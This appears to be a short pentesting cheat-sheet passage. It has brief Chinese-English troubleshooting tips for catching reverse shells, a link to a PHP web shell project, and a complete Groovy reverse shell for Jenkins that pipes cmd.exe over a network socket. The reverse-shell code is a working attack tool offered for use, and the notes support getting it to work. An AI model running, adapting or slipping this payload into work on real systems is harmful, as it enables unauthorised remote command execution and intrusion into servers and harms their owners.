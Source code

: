  - 在回弹shell时，可能会出现:
	 1. port block
	 2. a Low interactivity Shell Can Cause Problems.(especially in windows)
	 3. Privesc - file owner/group could be limited when trigger payload.
	 4. debug: output to file; always follow the exploit step;
	 5. try: change port -> payload -> change method;
Another web shell: https://github.com/WhiteWinterWolf/wwwolf-php-webshell
# Groovy Reverse Shell
For Jenkins
```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```